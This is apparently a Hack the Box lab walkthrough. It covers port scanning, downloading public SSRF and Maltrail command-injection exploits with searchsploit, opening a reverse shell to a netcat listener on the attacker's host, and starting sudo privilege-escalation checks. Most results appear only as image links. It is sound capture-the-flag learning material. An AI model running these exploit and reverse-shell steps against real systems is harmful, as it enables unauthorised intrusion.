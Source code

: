 ```
rustscan -a 10.10.11.224 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/eb7f80db-8ea9-414a-9854-1341815a5d8b)

```
nmap -Pn -sC -sV -p 22,55555 10.10.11.224
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3940691b-cf5c-4028-99fe-e2e498ce1d8e)

HTTP 55555
```
http://10.10.11.224:55555/web
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d765624b-9fbf-476d-9ef9-ffbced68b099)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/79f69a5d-4089-415f-a730-95af922adc0a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/90cf2208-534e-48e8-ac26-f19e52370a7d)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e3295c04-4b3e-47ca-9d22-bbcb09054e93)

Search Exploits
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/133c49dc-5684-4ead-ab67-a918ada9b649)

Download Exploit
```CSS
searchsploit -m python/webapps/51675.sh
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22c3d009-796c-4673-b744-f4fc250d2903)

Run Exploit
```CSS
/51675.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/21037b3a-2ebd-4701-97e3-716eab11b387)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5a3aa473-763c-4074-b1d5-82b081f3226f)

Search Exploits
```CSS
searchsploit maltrail
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4925095c-7d81-4c89-bfbc-b1a32a2c2a6c)

Download Exploit
```CSS
searchsploit -m python/webapps/51676.py
```

Start Netcat Listener
```CSS
rlwrap nc -nlvvp 4444
```

Run Exploit
```
python3 51676.py 10.10.14.4 4444 http://10.10.11.224:55555/nmsxly
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d1f9fe95-40a3-4694-a9ef-ebf126e09f4f)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3dde2cda-02a1-4206-92ef-1ee52146c66d)

Privilege Escalation
```CSS
sudo -l
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d5572bae-5d90-44bc-94bf-05e1dde27be4)

```CSS
sudo systemctl status trail.service
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d787cd01-cd77-43ca-834e-42ba5f899c29)
